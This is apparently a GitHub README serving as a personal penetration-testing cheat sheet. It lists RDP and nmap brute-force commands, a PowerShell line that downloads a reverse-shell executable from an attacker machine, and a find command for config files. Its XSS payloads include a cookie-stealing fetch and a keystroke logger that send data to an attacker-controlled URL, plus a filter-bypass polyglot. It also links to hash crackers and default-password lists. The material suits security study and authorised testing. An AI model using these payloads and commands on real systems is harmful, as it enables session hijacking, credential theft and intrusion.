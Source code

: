  <!-- <h1 align='center'> Penetration time</h1> -->
[![Typing SVG](https://readme-typing-svg.demolab.com?font=Bitter&weight=500&size=40&pause=1000&color=3C4CFF&background=AC51FF00&width=500&height=80&lines=P3netrati0n+T1me!)](https://git.io/typing-svg)
<img src='https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExYWM2NWI0ZDIwMjA3ZWIyYWRiZmEyYzA5NTFlNThmNTFhYWI1MWE0ZiZlcD12MV9pbnRlcm5hbF9naWZzX2dpZklkJmN0PWc/3oz8xA9gtnyVDPZJHW/giphy.gif' width='250'/>
<h1>My pentesting cheat sheet, where I share "hotkey" tools and the same things.</h1>
There is a :
<ol>
	<li> <a href='https://github.com/Kode-n-Rolla/pentesting_time/tree/main/network_tools'>network tools</a>
  	<li> <a href='#n1'>command examples</a>
  	<li> <a href='#n2'>payloads</a>
  	<li> <a href='#n3'>helpful sites</a>
	<li> <a href='#n4'>tools</a>
	<!--<li> cheat sheet injections
  	<li> shells!
	<li> resume my stars-->
</ol>

<h2 align='center' id='n1'><em> Example Commands</em></h2> 
<h3>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Remote Desktop Protocol (rdp)</h3>
  <code>xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:&lt;TARGET_IP> /u:&lt;USERNAME> /p:&lt;'PASSWORD'></code>
  <p><code>xfreerdp /v:&lt;TARGET_IP> /u:&lt;USERNAME> /p:&lt;PASSWORD> +clipboard</code>
	
<h3>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;To get stable shell from unstable from PowerShell</h3>
  <code>powershell -c "Invoke-WebRequest -Uri 'http://&lt;LOCAL_IP>:&lt;PORT>/&lt;FILENAME.exe>' -OutFile 'C:\Windows\Temp\&lt;FILENAME.exe>'"</code>, where filename is the reverse shell
  
<h3>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Commands to find in:</h3>
<h4>&nbsp;&nbsp;&nbsp;Linux</h4>
	<p> <code>find / -type f</code> - Find all files in / directory
	<p> <code>find / -type f | grep '&lt;FILE_NAME>'</code> - File name search
	<p> <code>find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null</code> - Find all path files with ‘config’ in proc dirs
		
<h3>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Nmap</h3>
Need to <a href='https://github.com/vulnersCom/nmap-vulners/archive/master.zip'>download</a> script files from github and install it. Thanks for that, Vulners Team!

   <p> <code> Nmap -Pn &lt;TARGET_IP> --script=vulnerse.nse -p &lt;PORT(S)></code> - Checking for a vulnerability in the software on the server.
   <p> <code> nmap --script ssh-brute -p &lt;SSH_PORT> &lt;TARGET_IP> --script-args userdb=users.lst,passdb=passwords.lst</code> - Checking brute force resistance on ssh
   <p> <code> nmap -d --script ftp-brute -p &lt;FTP_PORT> &lt;TARGET_IP></code> - Checking brute force resistance on ftp
   <p> <code> nmap -sV --script=mysql-empty-password &lt;TARGET_IP></code> - Checking mysql anonymous login
   <p> <code> nmap --script mysql-brute -p &lt;MYSQL_PORT> &lt;TARGET_IP> --script-args userdb=users.lst, passdb=passwords.lst</code> - Attempts to select a pair of login/password to enter the mysql database
   <p> <code> nmap -sV -p &lt;PORT> –script http-enum &lt;TARGET_IP></code> - Search for hidden folders and files
   <p> P.S. If CMS, research <code>&lt;name_0f_CMS_0r_DB> brute force nmap</code>
	
<h2 align='center' id='n2'><em>Payloads</em></h2>
    <h3>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;XSS Payloads</h3>
    <li> <b>Proof Of Concept (PoC)</b> - <code><script>alert('Success XSS!');</script></code>
      <p>This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text "Success XSS".
    <li> <b>Session Srealing</b> - <code><script>fetch('url/steal?cookie=' + btoa(document.cookie));</script></code>
      <p>Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
    <li> <b>Key Logger</b> - <code><scripr>document.onkeypress = function(v) {fetch('url/log?key=' + btoa(v.key));}</script></code>
      <p>The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
    <li> <b>Business Logic</b> - <code><script>user.changeEmail('your@email.com');</script></code>
      <p>This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail().
    <li><b>Polyglots</b> - <code>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('Success XSS!'))//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Success XSS!')//>\x3e</code>
      <p>An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.
	      
        
<h2 align='center' id='n3'><em>Sites</em></h2>
      <li> <a href='https://crackstation.net/'>crackstation.net</a> - online password hash cracker
      <li> <a href='https://www.base64encode.org/'>Base64</a> encode/decode
      <li> <a href='https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet'>Reverse Shell Cheat Sheet</a>
      <li> <a href='https://hashes.com/en/tools/hash_identifier'>Identify hash types</a>
      <li> <a href='https://devhints.io/bash'>Bash scripting</a> cheat sheet
      <li> <a href='https://gchq.github.io/CyberChef/'>CyberChef</a> - encode/decode service
      <li> <a href='https://www.kirsle.net/wizards/flask-session.cgi'>Flask Session Cookie Decoder</a>
      <li> <a href='https://viewdns.info/'>ViewDNS</a> Offers reverse IP Lookup. OSINT tool. 
      <li> <a href='https://www.shodan.io/'>ViewDNS</a> is the world's first search engine for Internet-connected devices. OSINT tool.
      <li> <a href='https://search.censys.io/'>Censys Search</a> Can provide a lot of information about IP addresses and domains. OSINT tool.
      <li> <a href='https://cirt.net/passwords'>CIRT.net</a> Dafault Passwords service
      <li> <a href='https://default-password.info/'>Default-Password.info</a> Dafault Passwords service
      <li> <a href='https://datarecovery.com/rd/default-passwords/'>Datarecovery.com</a> Dafault Passwords service
      <li> <a href='https://wiki.skullsecurity.org/index.php?title=Passwords'>This</a> wiki page includes the most well-known collections of passwords.
	      
        
<h2 align='center' id='n4'><em>Tools</em></h2>
	<ol>
		<li><h3><a href='https://www.kali.org/tools/ncurses-hexedit/'>Hexeditor</a></h3>
	        	<p> Tools for change files signature. <a href='https://en.wikipedia.org/wiki/List_of_file_signatures'>Link</a> to Wiki with List of file signatures. 
		<li><h3><a href='https://gitlab.com/kalilinux/packages/hash-identifier/-/tree/kali/master'>Tool</a> for hash identification.</h3> 
			<p> Python file. Powerful.
		<li><h3><a href='https://www.kali.org/tools/crunch/'>Crunch</a></h3>
		   <p> This is one of many powerful tools for creating an offline wordlist. With crunch, you can specify numerous options, including min, max, and options. The following example creates a wordlist containing all possible combinations of 3 characters, including 1-5 and qwerty. You can use the -o argument to save. <p>Example: <code>crunch 3 3 12345qwerty -o cranch.txt</code>.
		<li><h3><a href='https://github.com/therodri2/username_generator'>Username generator</h3>
			<p>Could help create a list with most of the possible combinations if we have a first name and last name. Use git clone and <p><code>python3 username_generator.py -h</code> shows the tool's help message and optional arguments.
	</ol>
